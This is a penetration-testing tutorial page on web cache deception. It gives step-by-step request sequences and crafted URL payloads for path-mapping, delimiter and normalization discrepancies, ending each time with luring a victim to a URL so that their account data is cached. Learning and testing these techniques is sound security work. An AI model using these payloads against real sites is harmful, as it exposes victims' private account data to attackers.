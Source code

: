 ```yaml
---
title: "Web cache deception"
weight: 25
---
```


# Web cache deception

{{< details summary="Introduction" >}}

Web cache deception is a vulnerability where an attacker tricks a web cache into storing sensitive content due to differences in how cache and origin servers handle requests. The attacker lures a victim into visiting a malicious URL, causing the cache to mistakenly store private data as a static resource. The attacker can then access the cached response, gaining unauthorized access to the sensitive information.

{{< /details >}}

More info about web cache: [web-cache.md](../web-security/web-cache.md "mention")

## Constructing a web cache deception attack

1. Identify a target endpoint that returns dynamic responses with sensitive information, focusing on those supporting `GET`, `HEAD`, or `OPTIONS` methods, as they are typically cached
2. Look for discrepancies in how the cache and origin server parse the URL path
3. Craft a malicious URL to trick the cache into storing a dynamic response. When the victim accesses it, their data is cached. Use Burp to request the same URL and retrieve the cached response. Avoid using a browser to prevent redirects or data invalidation.

## Static extension cache rules

Cache rules often target static resources by matching common file extensions like `.css` or `.js`. This is the default behavior in most CDNs.

### Path mapping discrepancies

{{< details summary="Path mapping discrepancies (REST-style vs traditional URL)" >}}

Consider the following example:

`http://example.com/user/123/profile/wcd.css`

* An origin server using **REST-style** URL mapping may interpret this as a request for the `/user/123/profile` endpoint and returns the profile information for user `123`, ignoring `wcd.css` as a non-significant parameter.
* A cache that uses **traditional URL** mapping may view this as a request for a file named `wcd.css` located in the `/profile` directory under `/user/123`. It interprets the URL path as `/user/123/profile/wcd.css`. If the cache is configured to store responses for requests where the path ends in `.css`, it would cache and serve the profile information as if it were a CSS file.

{{< /details >}}

```python
# 1. Find good endpoint
/my-account        # Contains sensitive data -> Good endpoint

# 2. Check if web cache is used
/test.js # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
/test.js # 2 time "X-Cache: hit" -> Perfect, the page is cached

# 3. Check if origin server uses REST-style
/my-account/abc    # The response is identical to the original -> REST-style

# 4. Check if cache server uses traditional URL & explotation
/my-account/abc.js # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
/my-account/abc.js # 2 time "X-Cache: hit" -> Perfect, the page is cached
# Now https://site.com/my-account/abc.js contains your sensitive data cached

# Find a way to send the victim on http://site.com/my-account/xyz.js
# Note: I omitted cache buster for simplicity
```

{{< hint style=notes >}}
**Note**:

* This attack is limited to the specific endpoint that you tested, as the origin server often has different abstraction rules for different endpoints.
* Try various extensions, such as `.css`, `.ico`, and `.exe`, as caches may have rules for specific extensions.
{{< /hint >}}

### Delimiter discrepancies

Objective: identify a character that is used as a delimiter by the origin server but not the cache. Use this list: [https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list](https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list)

```python
# 1. Find good endpoint
/my-account        # Contains sensitive data -> Good endpoint

# 2. Check if web cache is used
/test.js # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
/test.js # 2 time "X-Cache: hit" -> Perfect, the page is cached

# 3. Fuzz delimeter char
/my-account§§aaa   # Fuzz delimeter char. -> with ";" -> The response matches the original

# 4. Check if delimiter is not used by the cache
/my-account         # "X-Cache: miss"
/my-account;abc.js  # "X-Cache: miss"
# So the cache thinks "/my-account" is different from "/my-account;abc.js"

# 5. Exploitation
/my-account;abc.js # 1 time "X-Cache: miss"
/my-account;abc.js # 2 time "X-Cache: hit"
# Now https://site.com/my-account;abc.js contains your sensitive data cached

# Find a way to send the victim on http://site.com/my-account;xyz.js
# Note: I omitted cache buster for for simplicity
```

{{< hint style=notes >}}
**Note**:

* Because delimiters are generally used consistently within each server, you can often use this attack on many different endpoints.
*   Some delimiter characters may be processed by the victim's browser before it forwards the request to the cache. This means that some delimiters can't be used in an exploit. For example, browsers URL-encode characters like `{`, `}`, `<`, and `>`, and use `#` to truncate the path.

    If the cache or origin server decodes these characters, it may be possible to use an encoded version in an exploit.
* Make sure to test all ASCII characters and a range of common extensions, including `.css`, `.ico`, and `.exe`
{{< /hint >}}

## Static directory cache rules (with normalization discrepancies)

Web servers often store static resources in specific directories. Cache rules typically target these by matching URL path prefixes like `/static`, `/assets`, `/scripts`, or `/images`.

Premise

* If you type in your browser `https://website/test/../account`, it'll make the following request `GET /account HTTP/2`. &#x20;
* If you type in your browser`https://website/test/..%2faccount`, it'll make the following request `GET /test/..%2faccount HTTP/2`. &#x20;

```python
# 1. Find good endpoint
/my-account            # Contains sensitive data -> Good endpoint

# 2. Check if web cache is used (with static resources)
/static/js/info.js     # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
/static/js/info.js     # 2 time "X-Cache: hit" -> Perfect, the page is cached
```

### Normalization by the origin server

```python
# 3. Confirm that the cache rule is based on the static directory
/static/../xxx         # 1 time "X-Cache: miss"
/static/../xxx         # 2 time "X-Cache: hit" -> so all subpages in /static/ will be cached 

# 4. Detecting normalization by the origin server
/aaa/..%2fmy-account   # Returns the profile information -> The origin server decodes the slash and resolves the dot-segment

# 5. Detecting normalization by the cache server
/static/js/info.js     # 1 time "X-Cache: miss"
/static/js%2finfo.js   # 2 time "X-Cache: miss" -> Cache isn't normalizing the path before mapping it to the endpoint
# So the cache thinks "/static/js/info.js" is different from "/static/js%2finfo.js"

# 6. Exploiting
/static/..%2fmy-account

# The cache interprets the path as: /static/..%2fmy-account
# The origin server interprets the path as: /my-account
```

### Normalization by the cache server

```python
# 3. Confirm that the cache rule is based on the static directory
# This step is useless, so you can't confirm if the cache decodes 
# dot-segments and URL paths without trying an exploit.

# 4. Detecting normalization by the origin server
/aaa/..%2fmy-account   # Not found -> The origin server doesn't decode the slash and doesn't resolve the dot-segment

# 5. Detecting normalization by the cache server
/static/js/info.js     # 1 time "X-Cache: miss"
/static/js/info.js     # 2 time "X-Cache: hit"
/static/js%2finfo.js   # 2 time "X-Cache: hit" -> Cache has normalized the path
# So the cache understand that they are the same path

# 6. Identify a delimiter that is used by the origin server but not the cache
/my-account§§aaa   # Fuzz delimeter char. -> with "%23" -> The response matches the original

# 7. Check if delimiter is not used by the cache 
/static/js/info.js        # "X-Cache: miss"
/static/js/info.js%23aaa  # "X-Cache: miss"
# So the cache thinks "info.js" is different from "info.js%23aaa"

# 8. Exploitation
/my-account%23%2f%2e%2e%2fstatic/js/info.js

# The cache interprets the path as: /static
# The origin server interprets the path as: /my-account
```
